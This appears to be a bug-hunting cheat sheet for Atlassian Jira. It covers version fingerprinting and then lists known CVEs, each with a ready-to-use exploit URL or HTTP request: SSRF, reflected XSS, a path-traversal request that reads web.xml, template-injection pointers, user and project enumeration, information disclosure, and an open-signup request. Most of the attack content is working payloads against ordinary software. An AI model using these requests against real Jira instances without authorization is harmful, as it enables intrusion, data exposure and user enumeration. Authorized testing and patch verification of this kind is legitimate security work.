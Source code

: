 ```yaml
---
title: Jira HackTricks
tags: [bug hunting, jira]
categories: [bug hunting, jira]
date: 2022-07-03 11:33:00
---
```



# Jira Common Bugs

## Introduction
What would you do if you came across a website that uses Jira?

## How to Detect
Try to HTTP request to `https://example.com/secure/Dashboard.jspa` or `https://example.com/login.jsp` and there is a form login

1. Find the related CVE by checking jira version
* How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the jira version. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)
```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
- CVE-2018-20824 (XSS)
```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
- CVE-2019-8451 (SSRF)
```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
- CVE-2019-8449 (User Information Disclosure)
```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
- CVE-2019-8442 (Sensitive Information Disclosure)
```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
- CVE-2019-3403 (User Enumeration)
```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```
- CVE-2020-14181 (User Enumeration)
```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```
- CVE-2020-14178 (Project Key Enumeration)
```
https://example.com/browse.<PROJECT_KEY>
```
- CVE-2020-14179 (Information Disclosure)
```
https://example.com/secure/QueryComponent!Default.jspa
```
- CVE-2019-11581 (Template Injection)
```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
- CVE-2019-3402 (XSS)
```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled
```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```
